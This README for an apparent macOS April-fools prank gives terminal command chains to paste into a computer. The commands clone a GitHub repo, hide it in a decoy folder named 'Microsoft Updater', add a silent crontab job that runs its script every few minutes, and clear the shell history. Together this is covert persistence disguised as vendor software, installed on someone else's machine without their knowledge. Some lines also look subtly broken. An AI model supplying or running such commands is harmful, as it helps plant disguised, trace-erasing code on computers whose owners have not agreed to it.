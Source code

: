 ## only works on mac os but makes the computer say nonsense every 5 minutes on april first if its on

### open terminal, copy the below command into it and hit enter
```
git clone https://github.com/benbav/april_fools.git && \                                                                        # clone repo
rm april_fools/README.md && \                                                                                                   # remove readme
rm -rf april_fools/.git && \                                                                                                    # remove .git
chmod u+x ~/april_fools/main.sh && \                                                                                            # make executable
mkdir Microsoft\ Updater                                                                                                        # create decoy dir
mv april_fools/ "Microsoft Updater/utils"                                                                                       # move to the decoy dir
(crontab -l ; echo "*/5 * 1 4 * nohup /usr/bin/env bash ~/Microsoft\ Updater/utils/main.sh > /dev/null 2>&1 &") | crontab - && \# add to crontab
history -c && history -p                                                                                                        # clear history
```
**if you need to stop it go to the Home folder and delete the Microsoft Updater folder**

to test on your own computer this will run every minute (just to make sure it works)
```
git clone https://github.com/benbav/april_fools.git && \
rm april_fools/README.md && \
rm -rf april_fools/.git && \
chmod u+x ~/april_fools/main.sh && \
mkdir Microsoft\ Updater
mv april_fools/ "Microsoft Updater/utils"
(crontab -l ; echo "* * * * * nohup /usr/bin/env bash ~/Microsoft\ Updater/utils/main.sh > /dev/null 2>&1 &") | crontab - && \
history -c && history -p
```
**if you need to stop it go to the Home folder and delete the Microsoft Updater folder**
